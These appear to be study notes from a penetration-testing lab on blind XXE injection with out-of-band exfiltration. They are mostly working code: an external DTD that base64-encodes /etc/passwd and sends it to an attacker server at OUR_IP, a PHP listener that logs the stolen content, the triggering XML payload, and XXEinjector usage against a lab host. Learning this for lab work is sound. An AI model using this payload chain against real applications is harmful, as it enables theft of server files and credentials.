 We will make the web application send a web request to our web server with the content of the file we are reading

xxe.dtd, host on server with php below
```shell-session
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

1. Write this php code:
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
```shell-session
nano index.php
php -S 0.0.0.0:8000
```

2. Web request
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
- Add &content to root

## Automated OOB Exfiltration

Tool: XXEinjector
```shell-session
git clone https://github.com/enjoiz/XXEinjector
```

All we need to do is send this request:
```xml
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

